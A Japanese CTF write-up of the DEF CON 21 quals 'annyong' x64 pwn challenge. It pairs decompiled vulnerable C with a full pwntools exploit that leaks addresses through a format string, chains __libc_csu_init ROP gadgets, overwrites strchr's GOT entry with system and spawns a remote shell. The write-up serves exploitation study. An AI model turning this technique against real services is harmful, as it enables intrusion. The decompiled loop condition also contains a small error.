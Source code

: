 ```yaml
---
layout: post
alias: "/blog/2016/02/21/defcon-21-quals-annyong/"
title: "defcon 21 quals annyong"
date: 2016-02-21T04:42:03+09:00
tags: [ "ctf", "writeup", "pwn", "defcon", "x64", "return-oriented-programming", "return-to-vuln", "libc-csu-init", "buffer-overflow" ]
---
```


pwn会で。x64のrop問で解きたいものがあるが難しいので、その踏み台として持ってきたもの。

## [annyong](http://shell-storm.org/repo/CTF/Defcon-21-quals/annyong/)

### 準備

``` sh
$ file annyong
annyong: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=53cd09f49e09b946a74a1b345555bef4bce1f87a, stripped
$ checksec --file annyong
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   annyong
```

x64のrop。DEP PIEあり。RELRO SSPなし。libcなし。
使われていない関数がいくらかあるが、それらを除くと以下だけの小さなバイナリ。

``` c
#include <stdio.h>
#include <string.h>

void vuln(void) {
    char buf[0x800]; // rbp-0x810
    int done = 0; // rbp-0x4
    while (done != 0) {
        fgets(buf, 0x900, stdin); // buffer overflow
        if (strchr(buf, 'n')) {
            puts( "I don't think so...");
        } else {
            printf(buf); // format string atttack
            fflush(stdout);
        }
    }
}

int main(void) {
    vuln();
}
```

### 攻撃

1.  まず`printf`によるformat文字列攻撃で準備。
    -   `n`があると怒られるので読み取りしかでない。
2.  本命`fgets`によるbuffer-overflowからのrop。
    -   `__libc_csu_init`を使う。
        -   [x64でROP stager + Return-to-dl-resolve + \_\_libc\_csu\_init gadgetsによるASLR+DEP回避をやってみる - ももいろテクノロジー](http://inaz2.hatenablog.com/entry/2014/07/31/010158)
    -   `strchr`のgotに`system`のそれを書き込んで戻ってくる。
    -   書き込みには`read`を使う。
3.  `fgets`に`/bin/sh\0\n`を送ると`strchr`経由で`system("/bin/sh", "n")`が叩かれてshellが起動。
    -   直接ropで`system`しないのは第1引数に大きな値を渡せないから。(`mov edi, r13d`であるため)

### 実装

`__libc_csu_init`注意点

-   `__libc_csu_init`の末尾で実質的にpopするのは`[rsp+0x8]`からなので8byteの埋め草が要ること。
-   `call r12`でなく`call [r12]`であること。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
parser.add_argument('--leak-libc')
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./annyong')
vuln_ofs = 0x108c
buf_rbpofs = 0x810 # buf is at rbp-0x810
buf_ix = 6 # buf is shown by %6$p
libc_csu_init_a_ofs = 0x1180
libc_csu_init_b_ofs = 0x1196

p = remote(args.host, args.port)

p.sendline('%%%d$p %%%d$p' % (buf_ix + buf_rbpofs / 8, buf_ix + buf_rbpofs / 8 + 1))
saved_rbp, ret = map(lambda x: int(x, 16), p.recvline().split())
rbp = saved_rbp - 0x10  # main+0, push rbp
bin_base = ret - 0x1127 # main+0x9
log.info('current rbp: ' + hex(rbp))
log.info('bin base: ' + hex(bin_base))
buf = rbp - buf_rbpofs

s = ''
while len(s) < 8:
    p.sendline('%7$sABCD' + p64(bin_base + elf.got['__libc_start_main'] + len(s)))
    s += p.recv().split('ABCD')[0] or '\0'
libc_start_main = u64(s[:8])
log.info('__libc_start_main: ' + hex(libc_start_main))

if True:
    libc = ELF('/usr/lib64/libc.so.6')
    libc_base = libc_start_main - libc.symbols['__libc_start_main']
    system_ofs = libc.symbols['system']

if args.leak_libc:
    l, r = map(int, args.leak_libc.split(','))

    payload = ''
    payload += '\0'
    payload += 'A' * (buf_rbpofs - len(payload)) # buf, break-flag
    payload += 'A' * 8 # rbp
    payload += p64(bin_base + libc_csu_init_b_ofs)
    payload += 'A' * 8
    payload += p64(0) # rbx
    payload += p64(1) # rbp
    payload += p64(bin_base + elf.got['write']) # r12 -> call [r12]
    payload += p64(1) # STDOUT_FILENO # r13 -> edi
    payload += p64(libc_start_main + l) # r14 -> rsi
    payload += p64(r - l) # r15 -> rdx
    payload += p64(bin_base + libc_csu_init_a_ofs) # ret
    p.sendline(payload)
    print p.recvall()

else:
    payload = ''
    payload += 'A' * buf_rbpofs # buf, break-flag
    payload += 'A' * 8 # rbp
    payload += p64(bin_base + libc_csu_init_b_ofs)
    payload += 'A' * 8
    payload += p64(0) # rbx
    payload += p64(1) # rbp
    payload += p64(bin_base + elf.got['read']) # r12 -> call [r12]
    payload += p64(0) # STDIN_FILENO # r13 -> edi
    payload += p64(bin_base + elf.got['strchr']) # r14 -> rsi
    payload += p64(8) # r15 -> rdx
    payload += p64(bin_base + libc_csu_init_a_ofs) # ret
    payload += 'A' * 8 * 7
    payload += p64(bin_base + vuln_ofs) # ret
    p.sendline(payload)

    time.sleep(0.1)
    p.send(p64(libc_base + system_ofs))

    time.sleep(0.1)
    p.sendline('/bin/sh\0')

    time.sleep(0.1)
    p.sendline('ls')
    p.interactive()
```

